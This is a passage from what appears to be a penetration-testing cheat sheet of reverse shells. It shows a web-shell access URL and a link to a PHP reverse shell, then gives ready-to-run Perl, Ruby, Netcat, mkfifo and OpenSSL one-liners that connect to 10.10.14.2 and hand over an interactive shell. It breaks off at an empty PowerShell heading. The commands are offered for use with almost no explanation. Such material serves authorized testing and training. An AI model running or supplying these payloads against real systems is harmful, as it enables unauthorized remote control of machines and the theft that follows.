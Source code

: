 Access:

```
http://target/shell.php?cmd=whoami
```

#### 🧠 PentestMonkey PHP Reverse Shell (Full)

```bash
https://github.com/pentestmonkey/php-reverse-shell
```

***

### VI. 🧰 Perl Reverse Shells

```bash
perl -e 'use Socket;$i="10.10.14.2";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***

### VII. 🧩 Ruby Reverse Shells

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.14.2","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

***

### VIII. 🧠 Netcat Reverse Shells

#### 💣 Basic

```bash
nc -e /bin/bash 10.10.14.2 4444
```

#### 🧩 For Netcat without `-e`

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.2 4444 > /tmp/f
```

#### ⚙️ Encrypted with OpenSSL

```bash
openssl s_client -quiet -connect 10.10.14.2:443 -quiet -ign_eof | /bin/sh -i 2>&1 | openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

***

### IX. 🧬 PowerShell Reverse Shells (Windows)

